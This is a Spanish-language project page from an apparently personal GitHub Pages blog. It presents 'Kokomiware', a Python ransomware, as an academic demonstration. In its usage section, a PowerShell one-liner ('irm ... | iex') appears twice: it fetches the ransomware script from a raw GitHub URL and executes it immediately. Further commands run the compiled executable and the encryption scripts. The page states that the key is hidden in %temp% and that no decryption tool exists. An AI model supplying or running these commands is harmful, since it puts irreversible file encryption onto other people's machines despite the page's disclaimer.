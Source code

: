 ```yaml
---
layout: post
header-style: text
title: Kokomiware.
img: img/projects/kokomiware/header.webp
---
```


<!-- HTML Meta Tags -->
<meta property="og:title" content="KOKOMIWARE">
<meta name="description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:site_name" content="QuantumWavves">

<!-- Facebook Meta Tags -->
<meta property="og:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta property="og:type" content="website">
<meta property="og:title" content="KOKOMIWARE">
<meta property="og:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:image" content="https://quantumwavves.github.io/img/projects/kokomiware/header.webp">

<!-- Twitter Meta Tags -->
<meta name="twitter:card" content="summary_large_image">
<meta property="twitter:domain" content="quantumwavves.github.io">
<meta property="twitter:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta name="twitter:title" content="KOKOMIWARE">
<meta name="twitter:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta name="twitter:image" content="https://quantumwavves.github.io/img/projects/kokomiware/header.webp">


<p align="center">
<img src="/img/projects/kokomiware/kokomi-icon.jpg" alt="drawing" width="200"/><br>
</p>


### ¿Qué es Kokomiware?
Kokomiware es un ransomware escrito en lenguaje python, con la librería `cryptography` y librerías nativas de python como `OS` Y `Glob`. Tiene como fin demostrar lo fácil que es implementar un malware de este tipo. Además de que su propósito es puramente académico, bajo ningún concepto debe de ser utilizado con fines maliciosos y debera ser ejecutado unicamente en maquinas virtuales en entornos controlados.

**Repositorio de Github:** [Kokomiware](https://github.com/quantumwavves/Kokomi-Russian-Roulette)

### Uso

#### En una sola línea 

Este procedimiento llama a un script en escrito en powershell por medio del `Invoke-RestMethod` a un recurso en línea y utiliza, `Invoke-Expression` para realizar su ejecución, todo a través de un pipe `|`

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Modo ruleta rusa

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Uso normal 


```console
.\kokomiware.exe
```
#### Desarrollo 

`(Yo recomiendo usar un entorno virtual de python)`{:.info}
```console
$ .\env\Scripts\activate
$ pip install -r requirements.txt
$ python kokomiware-fernet.py
# Versión alternativa con pyAes, mas lenta, pero con un cifrado mas seguro
$ python kokomiware-aes.py
```
### Descifrar archivos (clave)
Kokomiware genera una clave única y aleatoria para cada ejecución de la función kokomi(). Se almacena en un archivo .png en la siguiente ruta `$env:temp` o también conocido como `%temp%` con el nombre `sngmy.png`{:.warning}, El programa de descifrado aun no esta creado.

### Lista de pendientes

- [ ] Reescribir el código en otro lenguaje como `C++` o `C` con el fin de aumentar la velocidad de encriptación.
- [ ] Crear un readme con instrucciones para desencriptar.
- [ ] Crear una función de desencriptación
- [ ] Optimizar los tiempos de ejecución

### Demo

Este es un video de demostración:

<p style="text-align: center">
<video width="600" height="400" controls>
  <source src="/img/projects/kokomiware/demo.webm" type="video/mp4">
</video>
</p>

### Inspiración
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi)
